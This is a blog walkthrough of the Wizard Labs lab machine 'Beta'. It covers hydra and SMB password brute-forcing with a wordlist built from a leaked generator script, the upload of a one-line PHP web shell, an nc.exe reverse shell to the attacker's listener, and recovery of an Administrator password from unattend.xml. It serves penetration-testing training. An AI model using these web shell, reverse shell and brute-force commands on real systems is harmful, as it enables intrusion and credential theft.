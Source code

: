 ```yaml
---
layout: post
title: Wizard Labs - Beta
date: 2019-04-17 20:47
author: rowbot
comments: true
categories: [Wizard Labs]
---
```

<!-- wp:image {"id":755,"align":"center"} -->
<div class="wp-block-image"><figure class="aligncenter"><img src="http://offsecnewbie.com/wp-content/uploads/2019/04/image-27.png" alt="" class="wp-image-755"/></figure></div>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>This box lead me down a rabbit hole...damn you H4d3s. I spent a lot of time bruteforcing web panel passwords. I had bother scanning the box, nmap hung a lot of the time but eventually I got a full scan done.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":756,"align":"center"} -->
<div class="wp-block-image"><figure class="aligncenter"><img src="http://offsecnewbie.com/wp-content/uploads/2019/04/image-28.png" alt="" class="wp-image-756"/></figure></div>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>I tried to connect to the telnet service but got kicked out </p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Port 80 gave a website with no directories.</p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">No more connections are allowed to telnet server. Please try again later.Connection closed by foreign host.
</pre>
<!-- /wp:preformatted -->

<!-- wp:image {"id":757,"align":"center"} -->
<div class="wp-block-image"><figure class="aligncenter"><img src="http://offsecnewbie.com/wp-content/uploads/2019/04/image-29.png" alt="" class="wp-image-757"/></figure></div>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Port 3000 gave another website that revealed some user information and passwords.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":737} -->
<figure class="wp-block-image"><img src="http://offsecnewbie.com/wp-content/uploads/2019/04/image-22.png" alt="" class="wp-image-737"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>python code is as follows which revealed a user russel and passwords.</p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted"> <br>"""<br> Just a secure password generator made by Russel T !! Used to generate passwords  mostly for file sharing protocols <br> Contact:russel@beta.corp<br> """<br> import random<br> import sys<br> menu = """<br> <em>_                      _</em> <br> / <em>\   / </em> __ _ <strong>_ </strong><em>   / </em> ___  /\ \ \<br> \ \ / _ \/ <strong>|/ /<em>)/ </em>` / </strong>/ <strong>| / /<em>\/ </em> \/  \/ / <em>\ \  </em></strong><em>/ (<strong>/ <em>/ (</em>| __ __ \/ /<em>\  / /\  / <br> _</em>/___|___\/    __,<em>|</em></strong>/<strong><em>/_</em></strong>/__</em>_\ \/  <br>                                 Beta Corp<br> """<br> words = ['lollip0p','rain','summer','little','honey']<br> end  = [1,2,3,4,5]<br> print(menu)<br> word = random.choice(words)<br> num = random.choice(end)<br> password = (word)+(str(num))<br> print("the secure password is : {}".format(password)) </pre>
<!-- /wp:preformatted -->

<!-- wp:paragraph -->
<p>In order to generate all the random passwords I created this script</p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted"><font color="#C4A000">for</font> i in {1..100}; <font color="#C4A000">do</font> <font color="#4E9A06">python</font> <u style="text-decoration-style:single">passgen.py</u> | <font color="#4E9A06">grep</font> <font color="#C4A000">"the secure password is"</font> &gt;&gt; <u style="text-decoration-style:single">out.pass</u> | <font color="#4E9A06">cut</font> -d<font color="#C4A000">" "</font> -f6 &gt;&gt; <u style="text-decoration-style:single">list.txt</u> ;<font color="#C4A000">done</font> </pre>
<!-- /wp:preformatted -->

<!-- wp:image {"id":739,"align":"center"} -->
<div class="wp-block-image"><figure class="aligncenter"><img src="http://offsecnewbie.com/wp-content/uploads/2019/04/image-23.png" alt="" class="wp-image-739"/></figure></div>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>picking the user russel@beta.corp and also russel and the list.txt I used hydra to try to bruteforce the login at the /user login panel and the /admin login panel</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":784,"align":"center"} -->
<div class="wp-block-image"><figure class="aligncenter"><img src="http://offsecnewbie.com/wp-content/uploads/2019/04/image-30.png" alt="" class="wp-image-784"/></figure></div>
<!-- /wp:image -->

<!-- wp:html -->
<pre><font color="#4E9A06">hydra</font> -l russel@beta.corp -P <u style="text-decoration-style:single">list.txt</u> 10.1.1.15 http-post-form <font color="#C4A000">"/user/login:username=^USER^&amp;password=^PASS^@Login=Login:Username"</font> -V -s 3000
</pre>
<!-- /wp:html -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">[ATTEMPT] target 10.1.1.15 - login "russel" - pass "summer3" - 446 of 450 [child 5] (0/0)
[ATTEMPT] target 10.1.1.15 - login "russel" - pass "honey2" - 447 of 450 [child 1] (0/0)
[ATTEMPT] target 10.1.1.15 - login "russel" - pass "honey2" - 448 of 450 [child 6] (0/0)
[ATTEMPT] target 10.1.1.15 - login "russel" - pass "summer2" - 449 of 450 [child 2] (0/0)
[ATTEMPT] target 10.1.1.15 - login "russel" - pass "lollip0p4" - 450 of 450 [child 7] (0/0)
1 of 1 target completed, 0 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-04-17 12:18:14
<span style="background-color:#2E3436"> </span><span style="background-color:#2E3436"><font color="#CC0000">✘ </font></span><span style="background-color:#2E3436"><font color="#C4A000">⚡ </font></span><span style="background-color:#3465A4"><font color="#2E3436"> ~/Desktop/beta </font></span><font color="#3465A4"></font> 
</pre>
<!-- /wp:preformatted -->

<!-- wp:paragraph -->
<p>I realised there was a better way to generate the passwords</p>
<!-- /wp:paragraph -->

<!-- wp:html -->
<pre><span style="background-color:#2E3436"> </span><span style="background-color:#2E3436"><font color="#CC0000">✘ </font></span><span style="background-color:#2E3436"><font color="#C4A000">⚡ </font></span><span style="background-color:#3465A4"><font color="#2E3436"> ~/Desktop/beta </font></span><font color="#3465A4"></font> <font color="#4E9A06">cat</font> <u style="text-decoration-style:single">pass1</u>                
lollip0p
rain
summer
little
honey
<span style="background-color:#2E3436"> </span><span style="background-color:#2E3436"><font color="#CC0000">✘ </font></span><span style="background-color:#2E3436"><font color="#C4A000">⚡ </font></span><span style="background-color:#3465A4"><font color="#2E3436"> ~/Desktop/beta </font></span><font color="#3465A4"></font> <font color="#C4A000">for</font> i in <font color="#75507B">$(</font><font color="#4E9A06">cat</font> <u style="text-decoration-style:single">pass1</u><font color="#75507B">)</font>; <font color="#C4A000">do</font> <font color="#4E9A06">echo</font> $i{1..5} &gt;&gt; <u style="text-decoration-style:single">output</u>;<font color="#C4A000">done</font>
<span style="background-color:#2E3436"> </span><span style="background-color:#2E3436"><font color="#C4A000">⚡ </font></span><span style="background-color:#3465A4"><font color="#2E3436"> ~/Desktop/beta </font></span><font color="#3465A4"></font> <font color="#4E9A06">cat</font> <u style="text-decoration-style:single">output</u> 
lollip0p1 lollip0p2 lollip0p3 lollip0p4 lollip0p5
rain1 rain2 rain3 rain4 rain5
summer1 summer2 summer3 summer4 summer5
little1 little2 little3 little4 little5
honey1 honey2 honey3 honey4 honey5
<span style="background-color:#2E3436"> </span><span style="background-color:#2E3436"><font color="#C4A000">⚡ </font></span><span style="background-color:#3465A4"><font color="#2E3436"> ~/Desktop/beta </font></span><font color="#3465A4"></font> 
</pre>
<!-- /wp:html -->

<!-- wp:paragraph -->
<p>I took a step back and looked at the nmap scan results and seem there were SMB ports open. enum4linux and smbmap revealed nothing but nmap came back and revealed 3 shares that require passwords to access.</p>
<!-- /wp:paragraph -->

<!-- wp:html -->
<pre><font color="#4E9A06">nmap</font> $ip -p 445,139 <font color="#C4A000">"--script=smb-enum*"
Host script results:
| smb-enum-shares: 
|   note: ERROR: Enumerating shares failed, guessing at common ones (NT_STATUS_ACCESS_DENIED)
|   account_used: &lt;blank&gt;
|   \\10.1.1.15\ADMIN$: 
|     warning: Couldn't get details for share: NT_STATUS_ACCESS_DENIED
|     Anonymous access: &lt;none&gt;
|   \\10.1.1.15\C$: 
|     warning: Couldn't get details for share: NT_STATUS_ACCESS_DENIED
|     Anonymous access: &lt;none&gt;
|   \\10.1.1.15\IPC$: 
|     warning: Couldn't get details for share: NT_STATUS_ACCESS_DENIED
|_    Anonymous access: READ
</font>
</pre>
<!-- /wp:html -->

<!-- wp:paragraph -->
<p>I used the following script to try all passwords combos</p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted"><span style="background-color:#2E3436"> </span><span style="background-color:#2E3436"><font color="#CC0000">✘ </font></span><span style="background-color:#2E3436"><font color="#C4A000">⚡ </font></span><span style="background-color:#3465A4"><font color="#2E3436"> ~/Desktop/beta </font></span><font color="#3465A4"></font> <font color="#C4A000">for</font> i in <font color="#75507B">$(</font><font color="#4E9A06">cat</font> <u style="text-decoration-style:single">output</u><font color="#75507B">)</font>; <font color="#C4A000">do</font> <font color="#4E9A06">echo</font> $i &amp;&amp;  <font color="#4E9A06">smbclient</font> //$ip/admin$ -U russel $i; <font color="#C4A000">done</font>
...
session setup failed: NT_STATUS_LOGON_FAILURE
little5
Try "help" to get a list of possible commands.
smb: \&gt; dir
  .                                   D        0  Sun Sep 23 14:34:50 2018
  ..                                  D        0  Sun Sep 23 14:34:50 2018
  addins                              D        0  Tue Jul 14 05:52:31 2009
  AppCompat                           D        0  Tue Jul 14 03:37:05 2009
  AppPatch                            D        0  Tue Apr 12 03:16:01 2011
  assembly                          DSR        0  Sat Sep 22 20:55:40 2018
</pre>
<!-- /wp:preformatted -->

<!-- wp:paragraph -->
<p>username = russel<br>password = little5</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Using the put command in smb I added a shell exec file called webby.php and put it into c:\xampp\htdocs so I could access it.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>webby.php contains<br>&lt;?php echo shell_exec($_GET['cmd']); ?&gt; </p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>I get command execution</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":751,"align":"center"} -->
<div class="wp-block-image"><figure class="aligncenter"><img src="http://offsecnewbie.com/wp-content/uploads/2019/04/image-24.png" alt="" class="wp-image-751"/></figure></div>
<!-- /wp:image -->

<!-- wp:image {"id":752,"align":"center"} -->
<div class="wp-block-image"><figure class="aligncenter"><img src="http://offsecnewbie.com/wp-content/uploads/2019/04/image-25.png" alt="" class="wp-image-752"/></figure></div>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>To get a nc shell I ran the following with a listener - nc -lnvp 443 :</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>http://10.1.1.15/webby.php?cmd=nc.exe 10.253.0.255 443 -e cmd.exe</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":753,"align":"center"} -->
<div class="wp-block-image"><figure class="aligncenter"><img src="http://offsecnewbie.com/wp-content/uploads/2019/04/image-26.png" alt="" class="wp-image-753"/></figure></div>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Running through my <a href="https://guide.offsecnewbie.com/privilege-escalation/windows-pe">Win Priv</a> checks reveals the admin password</p>
<!-- /wp:paragraph -->

<!-- wp:html -->
<pre>C:\xampp\htdocs&gt;type c:\unattend.xml
type c:\unattend.xml
&lt;?xml version="1.0" encoding="utf-8"?&gt;
&lt;unattend xmlns="urn:schemas-microsoft-com:unattend"&gt;
    &lt;settings pass="windowsPE"&gt;
        &lt;component name="Microsoft-Windows-Setup" publicKeyToken="31bf3856ad364e35" language="neutral" versionScope="nonSxS" processorArchitecture="amd64"&gt;
            &lt;WindowsDeploymentServices&gt;
                &lt;Login&gt;
                    &lt;WillShowUI&gt;OnError&lt;/WillShowUI&gt;
                    &lt;Credentials&gt;
                        &lt;Username&gt;Administrator&lt;/Username&gt;
                        &lt;Domain&gt;beta&lt;/Domain&gt;
                        <mark>&lt;Password&gt;loveLyp4ssw0rd*!&lt;/Password&gt;</mark>
                    &lt;/Credentials&gt;
</pre>
<!-- /wp:html -->

<!-- wp:paragraph -->
<p>Using smbclient logging in as Administrator I was able to capture the root flag</p>
<!-- /wp:paragraph -->

<!-- wp:html -->
<pre><span style="background-color:#2E3436"> </span><span style="background-color:#2E3436"><font color="#C4A000">⚡ </font></span><span style="background-color:#3465A4"><font color="#2E3436"> ~/Desktop/beta </font></span><font color="#3465A4"></font> <font color="#4E9A06">smbclient</font> //$ip/C$ -U administrator
Enter WORKGROUP\administrator&apos;s password: 
</pre>
<!-- /wp:html -->

<!-- wp:html -->
<pre>smb: \Users\Administrator\Desktop\&gt; mget root.txt 
Get file root.txt? y
getting file \Users\Administrator\Desktop\root.txt of size 32 as root.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
</pre>
<!-- /wp:html -->

<!-- wp:paragraph -->
<p>Fun box which felt quite OSCP like, especially when it had me down a rabbit hole of the Gogs web application.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":798,"align":"center"} -->
<div class="wp-block-image"><figure class="aligncenter"><img src="http://offsecnewbie.com/wp-content/uploads/2019/04/image-31.png" alt="" class="wp-image-798"/><figcaption>f1f95d42573c2f3940bfae6fdba05e5a</figcaption></figure></div>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>I tried to use the "runas" command to start a nc reverse shell as administrator but couldn't get it working. If you did, let me know how you did it.</p>
<!-- /wp:paragraph -->
